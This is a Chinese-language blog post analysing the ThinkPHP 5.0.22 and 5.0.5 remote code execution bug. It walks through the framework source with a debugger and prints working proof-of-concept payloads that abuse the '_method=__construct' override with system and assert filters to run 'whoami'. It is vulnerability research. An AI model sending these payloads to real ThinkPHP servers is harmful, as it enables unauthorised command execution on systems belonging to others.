 ```yaml
---
title: thinkphp5.x-RCE分析
author: p0desta
comment: true
date: 2019-02-1 21:03:28
tags: "代码审计" 
categories: web
---
```


#### thinkphp5.0.22

开debug模式,

```
http://127.0.0.1:10080/thinkphp_5.0.22/public/
_method=__construct&filter[]=system&method=get&get[]=whoami
```

<!-- more -->

关debug模式

```
http://127.0.0.1/thinkphp/thinkphp_5.0.22_with_extend/public/index.php?s=captcha

POST:

_method=__construct&filter[]=system&method=get&get[]=whoami
```



断点我直接下在了最后的RCE的地方,首先看一下调用堆栈

![](https://ws1.sinaimg.cn/large/006tNc79ly1fzpot17mzxj30l40fejtm.jpg)

在这个调用堆栈里其实少了一个关键的一次调用,从`routeCheck`到`$method = strtolower($request->method());`这个地方,

先看一下这个地方

![](https://ws2.sinaimg.cn/large/006tNc79ly1fzppfxxk0xj30y40d8dj4.jpg)

在`request.php`526行

```php
if (isset($_POST[Config::get('var_method')])) {
    $this->method = strtoupper($_POST[Config::get('var_method')]);
    $this->{$this->method}($_POST);
```

在`think\config\app.php`中可以看到

```
    // 表单请求类型伪装变量
    'var_method'             => '_method',
```

那么我我们可以通过传递`_method`参数,然后进入`$this->{$this->method}($_POST);`调用Request类中的任意方法,`$_POST`就是传入的参数,也就是说可以实现任意方法任意参数的调用,继续看构造函数

```php
    protected function __construct($options = [])
    {
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }

        // 保存 php://input
        $this->input = file_get_contents('php://input');
    }
```

`$options=>$_POST`,然后判断类中是否有这个属性,如果有即赋值



继续往下走,通过`$data = *self*::exec($dispatch, $config);`,因为`type=method`进入到

```php
case 'method': // 回调方法
    $vars = array_merge(Request::instance()->param(), $dispatch['var']);
    $data = self::invokeMethod($dispatch['method'], $vars);
    break;
```

然后进入到

```
if (empty($this->mergeParam)) {
    $method = $this->method(true);
```

这里还是会进入到method方法,但是这次为true，进入的分支不同,然后进入到server方法,接着

```
return $this->input($this->server, false === $name ? false : strtoupper($name), $default, $filter);
```

进入到input方法,断点停在了` $this->filterValue($data, $name, $filter);`但是往上看

```
$filter = $this->getFilter($filter, $default);
```

有个赋值的操作,跟进看一下

```php
    protected function getFilter($filter, $default)
    {
        if (is_null($filter)) {
            $filter = [];
        } else {
            $filter = $filter ?: $this->filter;
            if (is_string($filter) && false === strpos($filter, '/')) {
                $filter = explode(',', $filter);
            } else {
                $filter = (array) $filter;
            }
        }

        $filter[] = $default;

        return $filter;
    }
```

因为一开始`filter`变量被我们覆盖成了`system`,所以没影响,最后进入到

```php
    private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);
        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
```

但是到这里发现了问题,`$value`不对,想一下为什么不对,原因是我把断点下在了RCE的地方,但是呢第一次调用就停了,RCE的地方还得往下走,继续回到`param`方法,将当前请求参数和URL地址中的参数合并

```
// 当前请求参数和URL地址中的参数合并
$this->param      = array_merge($this->param, $this->get(false), $vars, $this->route(false));
```

执行到最后再次进入input方法

```
return $this->input($this->param, $name, $default, $filter);
```

这次`data`是数组,进入与刚才不一样的分支

```
if (is_array($data)) {
    array_walk_recursive($data, [$this, 'filterValue'], $filter);
    reset($data);
} 
```

`array_walk_recursive`函数会对数组中的成员递归的调用`filterValue`,进入到

```
$value = call_user_func($filter, $value); //$filter:system  $value:whoami
```



然后解释一下为什么路由要有`s=captcha`,`vendor/think-captcha/src/helper.php`中

```php
\think\Route::get('captcha/[:id]', "\\think\\captcha\\CaptchaController@index");
```

可以看到对应的路有信息,然后在route.php的1513-1519行

```
} elseif (false !== strpos($route, '\\')) {
    // 路由到方法
    list($path, $var) = self::parseUrlPath($route);
    $route            = str_replace('/', '@', implode('/', $path));
    $method           = strpos($route, '@') ? explode('@', $route) : $route;
    $result           = ['type' => 'method', 'method' => $method, 'var' => $var];
} 
```

可以看到规则,因此type为mehod。
#### thinkphp5.0.5

payload

```
http://127.0.0.1:10080/thinkphp_5.0.5/public/

POST:
_method=__construct&filter[]=assert&method=GET&get[]=system('whoami');
```

看下调用堆栈

![](https://ws3.sinaimg.cn/large/006tNc79ly1fzqwzllxivj30k60bejsz.jpg)

前面到调用Request类中的任意方法的过程是一样的,

```
filter[]=assert
get[]=system('whoami');
```

因为默认开着debug,进入到

```
if (self::$debug) {
    Log::record('[ ROUTE ] ' . var_export($dispatch, true), 'info');
    Log::record('[ HEADER ] ' . var_export($request->header(), true), 'info');
    Log::record('[ PARAM ] ' . var_export($request->param(), true), 'info');
}
```

`$request->param`中,然后到

```php
    public function param($name = '', $default = null, $filter = '')
    {
        if (empty($this->param)) {
            $method = $this->method(true);
            // 自动获取请求变量
            switch ($method) {
                case 'POST':
                    $vars = $this->post(false);
                    break;
                case 'PUT':
                case 'DELETE':
                case 'PATCH':
                    $vars = $this->put(false);
                    break;
                default:
                    $vars = [];
            }
            // 当前请求参数和URL地址中的参数合并
            $this->param = array_merge($this->get(false), $vars, $this->route(false));
        }
        if (true === $name) {
            // 获取包含文件上传信息的数组
            $file = $this->file();
            $data = array_merge($this->param, $file);
            return $this->input($data, '', $default, $filter);
        }
        return $this->input($this->param, $name, $default, $filter);
    }
```

因为上面请求了method为GET,那么会先将参数合并,然后进入input

这里因为上面赋值操作也让`get`为`system('whoami')`,

继续进入input中

![](https://ws3.sinaimg.cn/large/006tNc79ly1fzqyaqlxx1j314k0hkgp9.jpg)